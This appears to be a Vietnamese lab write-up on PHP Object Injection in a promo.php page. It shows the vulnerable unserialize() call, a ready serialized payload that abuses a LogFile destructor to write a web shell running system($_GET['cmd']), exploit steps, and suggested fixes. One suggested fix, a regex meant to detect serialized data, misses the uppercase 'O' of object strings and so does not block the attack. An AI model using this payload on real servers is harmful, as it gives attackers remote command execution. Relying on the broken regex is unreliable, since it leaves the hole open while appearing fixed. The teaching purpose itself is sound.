


# PHP Object Injection (POI)

## 📋 Mô tả

Lỗ hổng tại trang Promo (`promo.php`). Ứng dụng sử dụng hàm `unserialize()` lên dữ liệu người dùng nhập vào. Hacker có thể truyền vào một Object đã được Serialize để kích hoạt Magic Method (`__destruct`) của class `LogFile` có sẵn trong code.


## ⚠️ Code Lỗi (Vulnerable)

```php
$obj = unserialize($_GET['data']); 
// Class LogFile có __destruct() ghi file
```

## 🎯 Cách Khai thác (Exploit)

1. Tạo Payload (Serialized Object) để ghi file shell:
   ```
   O:7:"LogFile":2:{s:8:"filename";s:13:"shell_poi.php";s:7:"content";s:30:"<?php system($_GET['cmd']); ?>";}
   ```
2. Gửi payload qua tham số data: `promo.php?data=[payload]`
3. **Kết quả:** File `shell_poi.php` được tạo ra trên server


## 🔒 Cách Vá lỗi (Fix)

Không sử dụng `unserialize()` cho dữ liệu không tin cậy. Thay thế bằng JSON:

```php
// Thay vì unserialize()
$data = json_decode($_GET['data'], true);

// Hoặc validate trước khi unserialize
if (preg_match('/^[aios]:[0-9]+/', $_GET['data'])) {
    die("Suspicious serialized data detected!");
}

// Nếu bắt buộc phải dùng unserialize, chỉ cho phép class cụ thể
$obj = unserialize($_GET['data'], ['allowed_classes' => ['SafeClass']]);
```
